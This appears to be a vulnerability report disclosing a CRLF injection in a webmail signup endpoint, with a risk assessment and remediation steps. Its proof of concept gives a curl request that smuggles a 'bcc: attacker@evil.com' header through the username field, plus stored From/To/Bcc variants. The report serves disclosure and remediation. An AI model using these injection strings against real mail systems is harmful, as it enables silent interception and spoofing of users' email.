


# Description

CRLF injection (CWE-93) on the TrackBox webmail registration endpoint `POST /signup` (`Pages.py:118-149`). The username field is not sanitised for `\r\n` sequences. On signup, the username is stored as part of the `destination` field in the email database. A username carrying CRLF plus arbitrary header-like strings is persisted verbatim. The stored injection is visible in the unauthenticated `GET /api/emails` dump, and if the platform ever routes these values into real SMTP headers, the CRLF sequences would inject additional headers (`Bcc:`, `From:`, etc.).

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Register with CRLF in the username field. | Injected header reaches the welcome e-mail. |
| 2 | Read `/api/emails` (unauthenticated). | Destination field shows the injected header. |

# PoC

**1. Inject a `Bcc:` via the registration username:**

```bash
curl -sk -X POST "https://webmail.<TARGET>/signup" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "Ufield=legit_user%0d%0abcc%3a+attacker%40evil.com&Pfield=Test1234!&CPfield=Test1234!"
```

**2. Confirm the stored injection in the mailbox dump:**

```json
{"destination": "legit_user\r\nbcc: attacker@evil.com@tbox.traced", "subject": "Welcome !"}
```



Multiple injected variants are persisted and observable:

```
ID=43 dest='injecttest\r\nbcc: attacker@evil.com@tbox.traced'
ID=51 dest='test\r\nfrom: evil@evil.com\r\n@tbox.traced'
ID=52 dest='test\r\nto: victim@company.com\r\n@tbox.traced'
```



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | CRLF-tainted data stored in the database; if routed to SMTP, enables silent `Bcc:` copies. Currently the webmail uses direct DB inserts (no SMTP), so the injection is stored but not delivered via mail headers. |
| Integrity | Tainted `destination` field pollutes the email database; `From:`/`To:` spoofing if SMTP transport is added. |
| Availability | None directly. |

Overall severity: **High** — chains with the `/api/emails` exposure (activation tokens, plaintext passwords) toward full account compromise.

# Remediation

1. **Reject/strip `\r` and `\n`** in the username and any value that flows into mail headers.
2. **Validate the e-mail destination** against a strict address grammar before sending.
3. **Build messages with a hardened mail library** that encodes headers and forbids embedded newlines.

# Author
CHILL HUNT
